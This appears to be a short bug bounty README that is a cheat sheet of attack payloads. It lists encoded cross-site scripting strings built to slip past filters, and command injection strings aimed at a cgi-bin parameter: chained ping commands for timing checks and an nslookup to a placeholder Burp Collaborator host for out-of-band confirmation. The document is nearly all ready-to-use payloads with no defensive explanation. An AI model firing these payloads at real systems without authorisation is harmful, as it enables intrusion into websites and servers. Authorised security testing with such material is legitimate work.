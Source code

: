 # BugBounty_tips

#Xss

%u003Csvg onload=alert(1)> \
%u3008svg onload=alert(2)> \
%uFF1Csvg onload=alert(3)> \
=<img%20src=x%20onerror=alert('Welcome,%20v \

q=<g><script>alert%28document.domain%29<%2Fscript>


#Command Injection
url/cgi-bin/parameter=payload
payload 1 [PING]
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1 
payload 2 [Nslookup]
|nslookup -q=cname http://YOUR.burpcollaborator.net.&




